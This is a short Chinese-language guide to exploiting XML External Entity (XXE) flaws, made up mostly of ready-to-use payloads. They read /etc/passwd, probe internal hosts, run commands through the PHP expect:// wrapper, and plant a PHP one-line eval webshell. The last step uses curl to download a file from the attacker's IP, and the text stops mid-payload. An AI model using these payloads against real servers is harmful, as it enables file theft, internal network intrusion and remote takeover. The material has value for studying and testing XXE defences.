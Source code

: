 02

★★ 利用思路 ★★

  
  
  

     **0X01** **直接读取系统文件**

    使用如下类似Payload进行读取系统敏感文件  

  *   *   *   *   * 

    
    
    <?xml version = "1.0"?><!DOCTYPE ANY [    <!ENTITY xxe SYSTEM "file:///etc/passwd">]><x>&xxe;</x>

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095505.png)

    

 **    0X02 ** **内网探针或攻击内网应用（触发漏洞地址）**

    使用如下类似Payload获取内网系统敏感文件

  *   *   *   *   *   *   *   * 

    
    
    <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE cnc [    <!ELEMENT cnc ANY >    <!ENTITY xxe SYSTEM "http://IP/index.txt" >]><x>&xxe;</x>  
    #IP为内网地址或域名

 **    0X03 ** **借助expect扩展执行系统命令**

    (1)使用如下类似Payload获取系统敏感文件

  *   *   *   *   * 

    
    
    <?xml version = "1.0"?><!DOCTYPE ANY [    <!ENTITY xxe SYSTEM "expect://id" >]><x>&xxe;</x>

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095506.png)

     (2)部署Web服务器，达到Getshell的方法。

     首先，准备好poc.php，并写入一句话马，参考如下：

  * 

    
    
    <?php echo('<?php eval($_POST[‘2023’]);?>');?>

     然后，利用XXE执行下载命令，参考如下：

  *   *   *   *   *   * 

    
    
    <?xml version="1.0" version="UTF-8"?>        <!DOCTYPE title[        <!ENTITY xxe SYSTEM "expect://curl$IFS-O$IFS'攻击机ip/poc.php'">        ]>  
            <config><title>&xxe;</title></config

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095508.png)
